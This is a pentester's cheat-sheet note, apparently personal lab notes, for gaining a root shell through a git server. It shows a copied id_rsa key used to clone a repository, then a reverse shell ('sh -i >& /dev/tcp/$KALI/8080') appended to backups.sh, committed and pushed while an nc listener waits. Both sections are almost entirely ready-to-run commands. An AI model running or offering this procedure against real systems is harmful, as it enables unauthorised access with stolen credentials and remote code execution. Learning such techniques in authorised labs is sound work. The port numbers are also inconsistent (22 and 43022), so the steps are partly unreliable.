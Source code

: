 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Git user exists

A git user appears in the /home directory.

![[Pasted image 20220319230833.png]]

Let's copy the .ssh/id_rsa file to kali, then use it to ssh in.

```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh git@$TARGET -i id_rsa -p 22
```

Now that we have confirmed this works, we can use GIT SSH to clone the repository down to kali.

```bash - kali
GIT_SSH_COMMAND='ssh -i id_rsa -p 22' git clone git@$TARGET:/git-server
```

![[Pasted image 20221110090941.png]]

```bash - kali
cd git-server
```

Configure our Git identity.
```bash - kali
git config --global user.name "kali"
```

```bash - kali
git config --global user.email "kali@kali.(none)"
```

Echo in our reverse shell.
```bash - kali
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - kali
chmod +x backups.sh
```

Now we add and commit changes.
```bash - kali
git add -A
```

```bash - kali
git commit -m "pwn"
```

![[Pasted image 20221110091030.png]]

```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - kali
GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
```

![[Pasted image 20220319232925.png]]

#### Have commit privs

![[Pasted image 20220319230106.png]]

```bash - kali
git clone file://git-server
```

```bash - kali
ls -la git-server
```

```bash - kali
cd git-server
```

```bash - kali
git log
```

```bash - kali
cat backup.sh
```

```bash - kali
git config --global user.name "$USER"
```

>git config --global user.name "hacker"

```bash - kali
git config --global user.email "$USER@$HOSTNAME.(none)"
```

>git config --global user.email "hacker@targetbox1.(none)"

Run a test command for root execution.
```bash - kali
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - kali
chmod +x backups.sh 
```

```bash - kali
git add -A
```

```bash - kali
git commit -m "pwn"
```

If this method fails, try [[13._Git Server#Git user exists]]

```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - target
git push origin master
```